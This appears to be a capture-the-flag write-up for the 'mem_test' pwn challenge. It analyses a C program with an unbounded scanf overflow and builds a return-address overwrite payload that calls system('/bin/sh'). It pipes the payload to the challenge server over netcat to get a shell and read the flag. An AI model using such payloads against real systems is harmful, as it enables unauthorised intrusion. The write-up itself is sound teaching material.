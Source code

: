 # mem_test
**Category:** Pwn

**Points:** 75

**Description:**
Author: kablaa

nc ctf.hackucf.org 9004

> **Files:** mem_test, mem_test.c, libpwnableharness32.so

## Write-up
When run, prints a header, then a random string, then asks to see how good your memory is. If you enter the random string, it prints 'good job!!':
```
> nc ctf.hackucf.org 9004



------Test Your Memory!-------

YiUqxvyNCc
I know that mine is fine...see? : 0x8048980 
Let's see how good your memory is...

> YiUqxvyNCc
good job!!


```
If you don't enter the string correctly, you get the 'sorry, your memory sucks' message:
```
nc ctf.hackucf.org 9004



------Test Your Memory!-------

zhULSZ2STl
I know that mine is fine...see? : 0x8048980 
Let's see how good your memory is...

> hello
sorry, your memory sucks

```
C code was provided. In it there was a `handle_connection()` function, so I started there:
```c
void handle_connection(int sock) {
	int len = 10;
	char random[11];
	int i;
	static const char alphanum[] =
		"0123456789"
		"ABCDEFGHIJKLMNOPQRSTUVWXYZ"
		"abcdefghijklmnopqrstuvwxyz";
	
	
	puts("\n\n\n------Test Your Memory!-------\n");
	
	srand(time(NULL));
	
	for(i = 0; i < len; ++i) {
		random[i] = alphanum[rand() % (sizeof(alphanum) - 1)];
	}
	
	printf("%s", random);
	mem_test(random);
}
```
This function creates the random string to test the user with, prints it out, and passes it to the `mem_test()` function, so we can take a look at that:
```c
const char* hint = "/bin/sh";

void mem_test(char* p) {
	char buff[11];
	memset(buff, '\0', sizeof(buff));
	
	printf("\nI know that mine is fine...see? : ");
	printf("%p \n", hint);
	
	puts("Let's see how good your memory is...\n");
	printf("> ");
	scanf("%s", buff);
	
	if(strncmp(buff, p, sizeof(p)) != 0) {
		puts("sorry, your memory sucks\n");
	}
	else {
		puts("good job!!\n");
	}
}
```
Note that there is a global variable `hint` that is used by the `mem_test()` function, and this contains `/bin/sh`. Interesting.

Looking at the `mem_test()` function, it creates a `buff` variable of 11 `char`s and sets them all to zero. We can now see that the address printed out after the `mine is fine` message is the address of the `hint` variable.

It then prints out the messages and uses `scanf()` to get the user input and puts it in `buff`. This means we can overflow `buff` is we need to, as `scanf()` does no checking on the length of the input. We can see that `buff` is then compared to the original random string and an appropriate message printed.

In the code, there is one more function - `win_func()`:
```c
void win_func(char* y) {
	system(y);
}
```
This function takes a string and runs whatever is in that parameter. It looks like we need to call this function and pass it the address of the `hint` variable.

The only way I can see to call this function would be to overwrite the return address for the `mem_test()` function so it calls `win_func()` instead of returning to `handle_connection()`. To see how this can be done I ran the code in IDA, initially passing in 10 A characters so we can see the stack layout:
```
> python -c "print('A'*10)" > input.txt
```
We can now use `input.txt` to get the input into IDA.

If we look at the disassembly of part of the `handle_connection()` function, we can see that `mem_test()` is called at 0x0804885b:

![Call to mem_test()](mem_test_call.png)

This means the return address we are looking for on the stack is 0x08048860. Let's look at the stack just before the `scanf()` call:

![Stack with return address](return_address.png)

We can see the return address on the stack at 0xff843a3c. Now lets step over the `scanf()` and we'll see where our input goes:

![Stack with input](input_stack.png)

The input is placed on the stack at 0xff843a38. There are out 10 A characters and the null terminator. To affect the return address, we're going to have to add another 13 A characters (to eat up the null terminator and then 12 bytes on the next line), and then put the address we want to jump to. Looking at the code, the function we want to call is at 0x08048866:

![Win_func() location](win_func_location.png)

So now we can change our `input.txt` file to stry to change the return address and jump into the `win_func()` function:
```
> python -c "print('A'*23 + '\x66\x88\x04\x08')" > input.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use: python3 -c "import sys; sys.stdout.buffer.write(b'A'*23 + b'\x66\x88\x04\x08')" > input.txt

This time, we can see the original return address at 0xffa3ac4c:

![Stack with return address](return_address2.png)

Once we write our input to the stack the return address has changed to the `win_func()` location:

![Stack with win_func address](stack_with_win_func.png)

When stepping on through the code, this does get us into the `win_func()` function! Now we need to work out how to pass the address of `hint` to this function call.

The stack for a call is organised as follows:
|Address of functions to call   |
|Return address after call|
|Argument1|
|Argument2|

So we need to set up the stack like this. We can set the return address to the original return address we've overwritten, and the argument can be the address of `hint`. Therefore our stack should be:
|AAAAAAAA...| Overflowed buffer
|0x08048866 | Overwritten return address - now points to `win_func()`
|0x08048860 | Original return address set as return address for our call
|0x08048980 | Address of `hint`

Therefore, we now set up out `input.txt` file to be:
```
> python -c "print('A'*23 + '\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" > input.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use: python3 -c "import sys; sys.stdout.buffer.write(b'A'*23 + b'\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" > input.txt
> Note also: Even though I set the stack so that the old return address was set as the return address for our call, the program will still segment as the stack  won't be set up completely correctly

I tested our final payload in IDA. The final stack looked correct - after the A characters was the address of the `win_func()`, followed by the address to return to in `handle_connection()`, and then the address of the `hint` variable:

![Final stack](final_stack.png)

Lets try this on the server now:
```
> (python -c "print('A'*23 + '\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" ; cat) | nc ctf.hackucf.org 9004



------Test Your Memory!-------

uYPRJUjxBq
I know that mine is fine...see? : 0x8048980 
Let's see how good your memory is...

> sorry, your memory sucks

ls
flag.txt
mem_test
cat flag.txt
flag{<flag was here>}
^C
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use: (python3 -c "import sys; sys.stdout.buffer.write(b'A'*23 + b'\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" ; cat) | nc ctf.hackucf.org 9004
> We need to use `(python ... ; cat)` otherwise you don't get chance to interact with the shell before the program segments

This worked and gave me the flag.





